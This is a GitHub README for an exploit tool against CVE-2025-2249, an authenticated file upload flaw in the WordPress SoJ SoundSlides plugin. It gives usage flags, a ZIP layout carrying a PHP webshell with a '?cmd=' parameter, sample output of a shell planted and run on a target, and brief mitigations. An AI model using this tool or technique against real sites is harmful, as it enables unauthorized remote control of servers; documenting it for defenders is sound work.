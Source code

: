 
# 🔐 WordPress SoJ SoundSlides Plugin <= 1.2.2 - Authenticated Arbitrary File Upload

> ⚠️ **DISCLAIMER:** This exploit is for educational and authorized testing purposes only.

---

## 📌 Vulnerability Summary

- **Plugin:** SoJ SoundSlides  
- **Affected Versions:** <= 1.2.2  
- **Type:** Authenticated (Contributor+) Arbitrary File Upload  
- **Patch Status:** ❌ No official fix available

The SoJ SoundSlides plugin allows authenticated users with **Contributor or higher** roles to upload arbitrary ZIP files. Due to missing validation, attackers can upload PHP webshells that are extracted and executed from a web-accessible directory.

---

## 💥 Impact

An attacker with valid WordPress credentials can:

- 📦 Upload a ZIP archive containing a PHP shell
- 🖥️ Execute system commands remotely (`?cmd=`)
- 🔓 Gain unauthorized control of the site/server

---

## 🛠️ Usage

```bash
usage: CVE-2025-2249.py [-h] -u URL -un USERNAME -p PASSWORD

Exploit for CVE-2025-2249 | WordPress SoJ SoundSlides Plugin # By Nxploited | Khaled ALenazi,

options:
  -h, --help            show this help message and exit
  -u, --url URL         WordPress base URL
  -un, --username USERNAME
                        WordPress username
  -p, --password PASSWORD
                        WordPress password
```

| Argument  | Description                    |
|-----------|--------------------------------|
| `-u`      | WordPress base URL             |
| `-un`     | WordPress username             |
| `-p`      | WordPress password             |

---

## ✨ Features

- 🔍 Version check from plugin `readme.txt`
- 🧰 Auto-generates ZIP with required structure and webshell
- 📤 Exploits vulnerable upload endpoint
- 💻 Interactive command execution via uploaded shell

---

## 📂 ZIP File Structure

```
nxploit/
├── index.html
├── data/
│   └── data.xml
├── audio/
│   └── audio.mp3
└── nxploit.php  ← PHP shell (?cmd=)
```

---

## 🧪 Example

```bash
[*] Checking plugin version...
[+] Vulnerable version detected.
[*] Logging in...
[+] Login successful.
[*] Uploading shell...
[*] Shell uploaded: http://target/wp-content/uploads/SoundSlides/nxploit_shell/nxploit.php
> whoami
www-data
```

---

## 🛡️ Mitigation

- ❌ Disable or remove the plugin
- 🧱 Apply upload restrictions
- 🔍 Monitor `wp-content/uploads/` for unexpected `.php` files



> Built with ❤️ by [Nxploited | Khaled ALenazi]  
> For education, awareness, and defense.

---

## 🧠 Final Note

Security is everyone's responsibility. Always test ethically, report responsibly, and protect the web.

